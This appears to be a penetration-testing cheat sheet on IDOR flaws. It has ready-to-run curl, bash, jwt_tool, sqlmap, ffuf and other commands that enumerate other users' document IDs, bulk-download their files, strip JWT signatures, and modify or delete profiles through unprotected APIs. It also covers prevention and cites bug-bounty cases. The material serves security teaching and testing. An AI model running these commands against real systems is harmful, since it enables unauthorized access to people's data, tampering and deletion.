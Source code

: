 ## **1. Introduction to IDOR**

### **Definition:**

IDOR vulnerabilities occur when an application exposes direct references to internal objects (e.g., files, database records) that users can manipulate to access unauthorized data.

### **Causes:**

- Weak or missing server-side access controls.
    
- Developers relying on client-side restrictions instead of enforcing authentication checks.
    
- Insecure API endpoints that do not verify user permissions.
    

### **Impact:**

- Unauthorized data access (Information Disclosure).
    
- Account takeover and privilege escalation.
    
- Data modification or deletion.
    
- Business logic abuse through chained vulnerabilities.
    

---

## **2. Identifying IDOR Vulnerabilities**

### **Manual URL Parameter Manipulation**

```bash
curl "http://target.com/documents.php?uid=2"
curl "http://target.com/documents.php?uid=3"
```

### **Mass Enumeration (Using curl & grep)**

```bash
curl -s "http://target.com/documents.php?uid=3" | grep -oP "/documents.*?.pdf"
```

### **Automated Mass IDOR Testing (Bash Script)**

```bash
#!/bin/bash
url="http://target.com"
for i in {1..10}; do
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "/documents.*?.pdf"); do
        wget -q "$url$link"
    done
done
```

Run the script:

```bash
bash ./your_script_name.sh
```

---

## **3. Bypassing Encoded References**

### **Decoding Common Encoding Schemes**

#### **Base64 Decode:**

```bash
echo "MTIzNDU=" | base64 -d
```

#### **Hex Decode:**

```bash
echo "3132333435" | xxd -r -p
```

#### **MD5 Reverse Lookup (Example for Known Hashes)**

```bash
echo -n "1" | md5sum | awk '{print $1}'
```

#### **JWT Tampering (Testing for Missing Signature Verification)**

Use **jwt_tool**:

```bash
jwt_tool "<JWT_TOKEN>" -d -S none
```

---

## **4. IDOR in APIs**

### **Insecure GET Requests**

```bash
curl "http://target.com/profile/api.php/profile/2"
```

### **Insecure PUT Requests**

```bash
curl -X PUT -H "Content-Type: application/json" -d '{"uid": 2, "full_name": "New Name"}' "http://target.com/profile/api.php/profile/2"
```

### **Insecure DELETE Requests**

```bash
curl -X DELETE "http://target.com/profile/api.php/profile/11"
```

---

## **5. IDOR in Mobile Apps**

Use tools like **MobSF** and **Frida** for testing IDOR in mobile applications.

```bash
frida -U -n target_app -e "Interceptor.attach(Module.findExportByName(null, 'sendRequest'), {
    onEnter: function(args) {
        console.log('Request:', Memory.readUtf8String(args[1]));
    }
});"
```

---

## **6. Tools for IDOR Exploitation**

### **Burp Suite**

- Burp Intruder (Automated fuzzing)
    
- Burp Repeater (Manual testing)
    
- Burp Comparer (Response comparison)
    

### **ZAP Fuzzer**

- Automated fuzzing and scanning.
    

### **SQLMap** (For IDOR + SQL Injection):

```bash
sqlmap -u "http://target.com/page?id=1" --dbs
```

### **Nmap (Port Scanning & Service Detection):**

```bash
nmap -sV -sC target.com
```

### **Gobuster (Directory Brute-Forcing):**

```bash
gobuster dir -u target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### **wfuzz (Fuzzing Parameters):**

```bash
wfuzz -c -z range,1-100 http://target.com/page?id=FUZZ
```

### **Netcat (Manual HTTP Requests):**

```bash
nc -nv target.com 80
GET /documents.php?uid=2 HTTP/1.1
Host: target.com
```

### **ffuf (Fast Fuzzing for APIs & Directories)**

```bash
ffuf -w wordlist.txt -u http://target.com/api/user/ -X GET -H "Authorization: Bearer TOKEN"
```

### **Arjun (Automated Parameter Discovery)**

```bash
python3 arjun.py -u "http://target.com/api/profile"
```

---

## **7. Prevention & Mitigation**

- **Strict Access Control:** Ensure every user has proper authentication and authorization.
    
- **Use UUIDs Instead of Incremental IDs:** Avoid predictable identifiers in URLs.
    
- **Verify Permissions on the Server-Side:** Never rely on client-side validation.
    
- **Use Web Application Firewalls (WAFs):** Implement WAFs to detect and block malicious parameter manipulation.
    
- **Implement Rate Limiting & Logging:** Detect mass enumeration attempts in real-time.
    
- **Penetration Testing:** Regularly conduct security audits and tests.
    

---

## **8. Real-World Examples of IDOR Exploitation**

- **Facebook’s $40,000 IDOR Bug Bounty (2019)**: A researcher found an IDOR allowing deletion of live videos from any user account.
    
- **Uber’s 2017 IDOR Vulnerability**: Attackers could access private ride details by modifying booking IDs.
    
- **Snapchat’s 2018 IDOR Flaw**: Researchers bypassed authentication to access private user metadata.
    

---

## **9. Key Takeaways**

✅ IDOR vulnerabilities arise from **missing access controls on object references**. ✅ Attackers exploit predictable identifiers, **insecure API endpoints**, and **weak encoding mechanisms**. ✅ **Automated tools like Burp, ffuf, Arjun, and SQLMap** help identify and exploit IDOR vulnerabilities. ✅ Prevention requires **secure coding practices, server-side validation, and UUID usage**. ✅ Regular penetration testing is critical to **prevent unauthorized access to sensitive data**.

---
